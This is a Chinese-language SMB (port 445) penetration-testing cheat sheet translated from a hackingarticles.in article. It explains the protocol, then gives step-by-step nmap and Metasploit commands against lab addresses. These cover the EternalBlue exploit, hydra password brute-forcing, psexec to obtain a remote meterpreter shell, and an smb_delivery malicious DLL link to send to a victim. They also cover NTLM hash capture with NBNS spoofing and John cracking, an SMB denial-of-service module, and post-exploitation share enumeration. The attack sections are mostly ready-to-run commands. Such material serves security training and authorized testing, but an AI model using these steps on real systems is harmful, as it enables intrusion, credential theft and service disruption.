 ## SMB渗透测试（端口445）

**SMB协议简介** [^1]

- SMB的工作 [^2]

- Windows SMB的版本 

  - | 版本             | 系统                                                         |
    | ---------------- | ------------------------------------------------------------ |
    | CIFS             | 旧版本的SMB，它于1996年包含在Microsoft Windows NT 4.0中      |
    | SMB 1.0 / SMB1   | Windows 2000，Windows XP，Windows Server 2003和Windows Server 2003 R2中使用的版本 |
    | SMB 2.0 / SMB2   | 此版本用于Windows Vista和Windows Server 2008                 |
    | SMB 2.1 / SMB2.1 | 此版本用于Windows 7和Windows Server 2008 R2                  |
    | SMB 3.0 / SMB3   | 此版本用于Windows 8和Windows Server 2012                     |
    | SMB 3.02 / SMB3  | 此版本用于Windows 8.1和Windows Server 2012 R2                |
    | SMB 3.1          | 此版本在Windows Server 2016和Windows 10中使用                |
    |                  | 目前，SMB的最新版本是随Windows 10和Windows Server 2016引入的SMB 3.1.1。此版本除SMB3中添加的AES 128 CCM加密外，还支持AES 128 GCM加密，并使用SMB进行预身份验证完整性检查SHA-512哈希。当使用SMB 2.x及更高版本连接到客户端时，SMB 3.1.1也必须进行安全协商 |

- SMB协议安全性 [^3]

**SMB枚举** [^4]

- Banner Grabbing
- RID cycling
- User listing
- Listing of group membership information
- Share enumeration
- Detecting if a host is in a workgroup or a domain
- Identifying the remote operating system
- Password policy retrieval

`nmap -p 445 -A 192.168.1.101` [^5]

**扫描漏洞 ** [^6]

`nmap --script smb-vuln* -p 445 192.168.1.101` [^7]

**利用SMB的多种方式**

- Eternal Blue(永恒之蓝，MS17-010)

  - ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    msf exploit(ms17_010_eternalblue) > set rhost 192.168.1.101
    msf exploit(ms17_010_eternalblue) > exploit
    ```

- 通过Brute Force登录SMB

  - `hydra -L user.txt -P pass.txt 192.168.1.101 smb` [^8]

  - ```bash
    # 如果您具有SMB登录凭据，则可以使用以下模块通过SAM RPC服务确定存在的本地用户
    use auxiliary/scanner/smb/smb_enumusers
    msf auxiliary(smb_enumusers) > set rhosts 192.168.1.101
    msf auxiliary(smb_enumusers) > set smbuser raj
    msf auxiliary(smb_enumusers) > set smbpass 123
    msf auxiliary(smb_enumusers) > exploit
    ```

- PSexec连接SMB [^9]

  - ```bash
    # 获得目标计算机的SMB登录凭据后，在Metasploit的以下模块的帮助下，您可以获取meterpreter会话以访问远程shell
    use exploit/windows/smb/psexec
    msf exploit windows/smb/psexec) > set rhost 192.168.1.101
    msf exploit(windows/smb/psexec) > set smbuser raj
    msf exploit(windows/smb/psexec) > set smbpass 123
    msf exploit(windows/smb/psexec) > exploit
    ```

- 通过Rundll32 One-liner利用SMB [^10]

  - ```bash
    use exploit/windows/smb/smb_delivery
    msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109
    msf exploit(windows/smb/smb_delivery) > exploit
    # 这将生成恶意DLL文件的链接，现在将此链接发送到您的目标并等待他的操作
    ```

- 通过NTLM Capture利用SMB [^11]

  - ```bash
    # 启动smb服务
    use auxiliary/server/capture/smb
    msf auxiliary(smb) > set srvhost 192.168.1.109
    msf auxiliary(smb) > set johnpwfile /root/Desktop/
    msf auxiliary(smb) > exploit
    ```

  - ```bash
    # 在捕获smb模块下同时运行NBNS_response模块。
    # 此模块伪造NetBIOS名称服务（NBNS）响应。它将侦听发送到本地子网的广播地址的NBNS请求并欺骗响应，将查询计算机重定向到攻击者选择的IP。结合辅助/服务器/捕获/ smb或辅助/服务器/捕获/ http_ntlm，它是在公共网络上收集可破解哈希的高效方法。该模块必须以root身份运行，并在所有接口上绑定到udp / 137
    auxiliary/spoof/nbns/nbns_response
    msf auxiliary(nbns_response) > set spoofip 192.168.1.109
    msf auxiliary(nbns_response) > set interface eth0
    msf auxiliary(nbns_response) >exploit
    # 结果，该模块将在受害者的系统上生成假的窗口安全提示，以建立与另一个系统的连接，以便访问该系统的共享文件夹
    # 现在，当受害者试图访问我们的共享文件夹时，他将尝试通过他的网络IP与我们联系，如下图所示，证明受害者正在连接恶意IP：192.168.1.109。当受害者试图访问共享文件夹时，他将陷入假窗口安全警报提示，这将要求受害者输入他的用户名和密码以访问共享文件夹。
    \\192.168.1.109 #目标主机cmd执行
    john john_smb_netntlmv2
    ```

**SMB DOS攻击** [^12]

```bash
use auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop
msf auxiliary(ms10_006_negotiate_response_loop) > set srvhost 192.168.1.106
msf auxiliary(ms10_006_negotiate_response_loop) > exploit
```

**后利用**

```bash
# 此模块将枚举已配置和最近使用的文件共享
use post/windows/gather/enum_shares
msf post(enum_shares) > set session 1
msf post(enum_shares) > exploit
```

**文件共享** [^13]

```bash
python smbserver.py raj /root/share # 为共享文件夹“raj”执行这个命令
\\192.168.1.108 #目标主机使用cmd连接该地址提供的窗口平台的smb服务
# 这样，我们可以使用smb python脚本在Windows和Linux机器之间共享文件
```

### smbclient [^14]

```bash
smbclient –L 192.168.1.108
smbclient //192.168.1.108/raj
get xxx.txt
help
```

[原文](https://www.hackingarticles.in/smb-penetration-testing-port-445/)

---

[^1]: 服务器消息块（SMB），其现代方言称为通用因特网文件系统，作为文件共享的应用层网络协议运行，允许计算机上的应用程序读取和写入文件并从服务器程序请求服务在计算机网络中。SMB协议可以在其TCP / IP协议或其他网络协议之上使用。**使用SMB协议，应用程序（或应用程序的用户）可以访问远程服务器上的文件或其他资源。这允许应用程序读取，创建和更新远程服务器上的文件。**它还可以与设置为接收SMB客户端请求的任何服务器程序进行通信
[^2]: SMB用作请求 - 响应或客户端 - 服务器协议。协议在响应请求框架中不起作用的唯一时间是客户端请求opportunistic lock（oplock）并且服务器必须中断现有的oplock，因为当前模式与现有的oplock不兼容。使用SMB的客户端计算机使用TCP / IP上的NetBIOS，IPX / SPX或NetBUI连接到支持服务器。一旦建立连接，客户端计算机或程序就可以打开，读/写和访问类似于本地计算机上的文件系统的文件
[^3]: MB协议支持两个级别的安全性。第一个是共享水平。服务器在此级别受到保护，每个共享都有一个密码。客户端计算机或用户必须输入密码才能访问在特定共享下保存的数据或文件。这是Core和Core Plus SMG协议定义中唯一可用的安全模型。用户级保护后来添加到SMB协议中。它适用于单个文件，每个共享基于特定的用户访问权限。一旦服务器对客户端进行身份验证，就会为他/她提供访问服务器时显示的唯一标识（UID）。自LAN Manager 1.0实施以来，SMB协议支持个人安全性。
[^4]: 要识别Windows或Samba系统的以下信息，每个测试者在网络渗透测试期间都要进行SMB枚举
[^5]: [更多SMB枚举小指南](https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/)
[^6]: 在枚举阶段，通常我们会使用标题抓取来识别正在运行的服务版本和主机操作系统。一旦列举了这些信息，您就应该进行漏洞扫描阶段，以确定安装服务是易受攻击的版本还是修补版本
[^7]: 结果，它表明由于SMBv1，目标机器极易受到Ms17-010（永恒蓝色）的影响。要了解有关Ms17-010的更多信息，请阅读完整文章  [扫描远程PC中永久蓝色漏洞的3种方法](https://www.hackingarticles.in/3-ways-scan-eternal-blue-vulnerability-remote-pc/)
[^8]: *-L* **->表示用户名列表的路径**  *-P*  **- >表示密码的路径**。了解更多信息，请阅读此处的完整文章“ **[破解SMB登录密码的5种方法](https://www.hackingarticles.in/5-ways-to-hack-smb-login-password/)** ”
[^9]: 以多种方式连接SMB。阅读完整文章“ [使用SMB端口连接远程PC的多种方法](https://www.hackingarticles.in/multiple-ways-to-connect-remote-pc-using-smb-port/) ”
[^10]: 该模块通过SMB服务器提供有效负载，并提供检索和执行生成的有效负载的命令。目前支持DLL和Powershell
[^11]: 利用SMB的另一种方法是通过捕获SMB目标机器的响应密码哈希来进行NTLM哈希捕获。此模块提供SMB服务，可用于捕获SMB客户端系统的质询 - 响应密码哈希值。默认情况下，此服务发送的响应具有可配置的挑战字符串（\ x11 \ x22 \ x33 \ x44 \ x55 \ x66 \ x77 \ x88），允许使用Cain＆Abel，L0phtcrack或John the Ripper（使用jumbo补丁）轻松破解。要利用此功能，目标系统必须尝试对此模块进行身份验证。要了解更多信息，请阅读此处的完整文章“ **[在网络中捕获NTLM哈希的4种方法](https://www.hackingarticles.in/4-ways-capture-ntlm-hashes-network/)** ”
[^12]: SMB Dos攻击是我们在Metasploit框架中拥有的另一种最优秀的方法。此模块利用Windows 7和Windows Server 2008 R2上的Microsoft Windows SMB客户端中的拒绝服务缺陷。要触发此错误，请将此模块作为服务运行，并强制易受攻击的客户端作为SMB服务器访问此系统的IP。如果目标正在使用Internet Explorer或Word文档，则可以通过将UNC路径（\ HOST \ share \ something）嵌入到网页中来实现
[^13]: 现在我们将使用一个python脚本来激活Linux机器中的SMB服务。这在目标机器没有可写可用份额的情况下很有用。您可以访问[GitHub](https://github.com/CoreSecurity/impacket/blob/master/examples/smbserver.py)  获取此python脚本
[^14]: smbclient是一个可以与SMB / CIFS服务器“对话”的客户端。它提供类似于FTP程序的界面。操作包括将文件从服务器提取到本地计算机，将文件从本地计算机放到服务器，从服务器检索目录信息等操作